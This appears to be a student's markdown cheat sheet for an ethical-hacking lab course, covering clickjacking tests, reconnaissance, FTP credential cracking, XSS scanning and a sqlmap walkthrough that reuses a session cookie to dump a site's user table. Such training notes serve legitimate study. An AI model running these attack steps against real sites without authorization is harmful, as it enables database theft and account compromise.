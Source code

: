 # Test website for clickjacking
If ClickJackPOC.py doesn't work, try www.clickjacker.io

# Finding HTTP and Web servers for websites
- Can use http-recon
- If site isn't reachable with the tool, try opening it with firefox or chrome
- Press F12 -> Network tab -> Refresh page
- Look under response headers

# Cracking FTP Credentials
- REMEMBER THERE ARE PROVIDED WORDLISTS
- Check both the one on Desktop and in Module 13 in Parrot Machine

# Finding Load Balancing Svc
1. dig <site> -> Take sites from ANSWER SECTION
2. lbd <answer_site>

# CMS
Content management system refers to the system used by the website (eg. WordPress, SquareSpace)

# Banner Grabbing
wget <ip> -q -S (gives etag)
- Make sure to use an actual ip and not a hostname

# Web application snooping
- Use Burp Suite and setup a proxy to observe the structure

# Check for XSS
- Navigate to PwnXSS folder
- python3 pwnxss.py -u <url>

# SQL Injection Attack
The question asks to get number of users and gave login credentials
- Login to target site and select "View Profile"
- Open Developer tools (F12), go to console and type "document.cookie"
- Eg. "mscope=*********; ui-tabs-1=0"
- Open a terminal
- sqlmap -u "<current_url>" --cookie="mscope=*********;" --dbs
    - Returns all available databases 
    - (Eg. we're selecting moviescope)
- sqlmap -u "<current_url>" --cookie="mscope=*********; ui-tabs-1=0" -D moviescope --tables
    - Returns all tables 
    - (Eg. we want User_Login)
- sqlmap -u "<current_url>" --cookie="mscope=*********; ui-tabs-1=0" -D moviescope -T User_Login --dump
    - Returns a list of all content in that table
    - (Eg. This table has 9 users)

# Detect Session Hijacking
- Open .pcap file in Wireshark
- Filter by ARP and see there is a lot of requests